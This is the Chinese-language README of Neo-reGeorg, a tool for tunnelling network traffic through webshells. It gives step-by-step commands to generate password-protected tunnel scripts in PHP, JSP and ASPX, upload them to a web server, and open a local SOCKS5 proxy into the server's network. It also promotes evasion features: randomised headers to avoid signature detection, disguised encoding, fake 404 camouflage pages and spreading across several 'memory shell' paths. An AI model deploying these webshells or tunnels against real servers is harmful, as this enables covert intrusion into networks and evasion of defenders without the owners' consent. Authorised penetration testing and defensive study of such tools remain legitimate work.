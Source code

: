 Neo-reGeorg
=========

[简体中文](README.md)　｜　[English](README-zh.md)

**Neo-reGeorg** 是一个旨在积极重构 [reGeorg](https://github.com/sensepost/reGeorg) 的项目，目的是：

* 提高 tunnel 连接安全性
* 提高可用性，避免特征检测
* 提高传输内容保密性
* 应对更多的网络环境场景



Features
----

* 传输内容经过变形 base64 加密，伪装成 base64 编码
* 直接请求响应可定制化 (如伪装的404页面)
* HTTP Headers 的指令随机生成，避免特征检测
* HTTP Headers 可定制化
* 自定义 HTTP 响应码
* 多 URL 随机请求
* 服务端 DNS 解析
* 兼容 python2 / python3
* 服务端环境的高兼容性
* 参考 [pivotnacci](https://github.com/blackarrowsec/pivotnacci) 实现单 Session 创建多 TCP 连接，应对部分负载均衡场景



Version
----

2.0.0

[版本修改日志](CHANGELOG.md)



Dependencies
-----------

* [**requests**] - https://github.com/kennethreitz/requests



Basic Usage
--------------

* **Step 1.**
设置密码生成 tunnel.(aspx|ashx|jsp|jspx|php) 并上传到WEB服务器
```ruby
$ python neoreg.py generate -k password

    [+] Create neoreg server files:
       => neoreg_servers/tunnel.jspx
       => neoreg_servers/tunnel.php
       => neoreg_servers/tunnel.ashx
       => neoreg_servers/tunnel.aspx
       => neoreg_servers/tunnel.jsp

```

* **Step 2.**
使用 neoreg.py 连接 WEB 服务器，在本地建立 socks5 代理
```ruby
$ python3 neoreg.py -k password -u http://xx/tunnel.php
+------------------------------------------------------------------------+
  Log Level set to [DEBUG]
  Starting socks server [127.0.0.1:1080]
  Tunnel at:
    http://xx/tunnel.php
+------------------------------------------------------------------------+
```

   注意，如果你的工具，如 nmap 不支持 socks5 代理设置，请使用 [proxychains](https://github.com/rofl0r/proxychains-ng) 等




Advanced Usage
--------------

1. 支持生成的服务端，默认直接请求响应指定的页面内容 (如伪装的 404 页面)
```ruby
$ python neoreg.py generate -k <you_password> --file 404.html --httpcode 404
$ python neoreg.py -k <you_password> -u <server_url> --skip
```

2. 如服务端 WEB，需要设置代理才能访问
```ruby
$ python neoreg.py -k <you_password> -u <server_url> --proxy socks5://10.1.1.1:8080
```

3. 如需 Authorization 认证和定制的 Header 或 Cookie
```ruby
$ python neoreg.py -k <you_password> -u <server_url> -H 'Authorization: cm9vdDppcyB0d2VsdmU=' --cookie "key=value;key2=value2"
```

4. 需要分散请求，可上传到多个路径上，如内存马
```ruby
$ python neoreg.py -k <you_password> -u <url_1> -u <url_2> -u <url_3> ...
```


* 更多关于性能和稳定性的参数设置参考 -h 帮助信息
```ruby
# 生成服务端脚本
$ python neoreg.py generate -h
	usage: neoreg.py [-h] -k KEY [-o DIR] [-f FILE] [-c CODE] [--read-buff Bytes]

	Generate neoreg webshell

	optional arguments:
	  -h, --help            show this help message and exit
	  -k KEY, --key KEY     Specify connection key.
	  -o DIR, --outdir DIR  Output directory.
	  -f FILE, --file FILE  Camouflage html page file
	  -c CODE, --httpcode CODE
							Specify HTTP response code. (default: 200)
	  --read-buff Bytes     Remote read buffer. (default: 513)

# 连接服务端
$ python neoreg.py -h
	usage: neoreg.py [-h] -u URI -k KEY [-l IP] [-p PORT] [-s] [-H LINE] [-c LINE]
					 [-x LINE] [--local-dns] [--read-buff Bytes]
					 [--read-interval MS] [--max-threads N] [-v]

	Socks server for Neoreg HTTP(s) tunneller. DEBUG MODE: -k
	(debug_all|debug_base64|debug_headers_key|debug_headers_values)

	optional arguments:
	  -h, --help            show this help message and exit
	  -u URI, --url URI     The url containing the tunnel script
	  -k KEY, --key KEY     Specify connection key
	  -l IP, --listen-on IP
							The default listening address.(default: 127.0.0.1)
	  -p PORT, --listen-port PORT
							The default listening port.(default: 1080)
	  -s, --skip            Skip usability testing
	  -H LINE, --header LINE
							Pass custom header LINE to server
	  -c LINE, --cookie LINE
							Custom init cookies
	  -x LINE, --proxy LINE
							proto://host[:port] Use proxy on given port
	  --local-dns           Local read buffer, max data to be sent per
							POST.(default: 2048 max: 2600)
	  --read-buff Bytes     Local read buffer, max data to be sent per
							POST.(default: 2048 max: 2600)
	  --read-interval MS    Read data interval in milliseconds.(default: 100)
	  --max-threads N       Proxy max threads.(default: 1000)
	  -v                    Increase verbosity level (use -vv or more for greater
							effect)
```


TODO
----

 * HTTP body 隐写

 * 传输 Target 隐写



License
----

GPL 3.0
